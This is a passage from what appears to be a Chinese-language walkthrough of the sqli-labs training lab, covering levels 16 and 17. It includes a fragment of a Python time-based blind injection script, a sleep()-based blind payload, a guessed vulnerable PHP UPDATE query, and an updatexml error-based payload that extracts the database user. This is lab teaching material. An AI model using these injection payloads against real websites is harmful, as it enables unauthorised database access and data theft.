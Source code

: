 ```python
        # exit()
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```
:::

## Less-16

在尝试这个payload时，页面进入长时间加载状态，说明存在时间盲注

![28](/medias/sqli-labs/28.png)

```sql
passwd=1&submit=Submit&uname=1") or if(1=1,sleep(5),sleep(5))#
```


## Less-17 update模块

这里，需要一个用户名和一个新密码，猜测后台sql语句类似

```php
$uname = $_POST['uname'];
$passwd = $_POST['passwd'];
$sql = "update users set password = '$passwd' where username = '$uname'";
```

传入单引号参数`passwd`，页面报错

![29](/medias/sqli-labs/29.png)

这里为什么用户名不能注入？翻看源码

![30](/medias/sqli-labs/30.png)

好好好，这么玩

那就从参数`passwd`入手，页面会报错，使用报错注入

```sql
passwd=1' or updatexml(1,concat(0x7e,user(),0x7e),1)#&submit=Submit&uname=0
```

![31](/medias/sqli-labs/31.png)
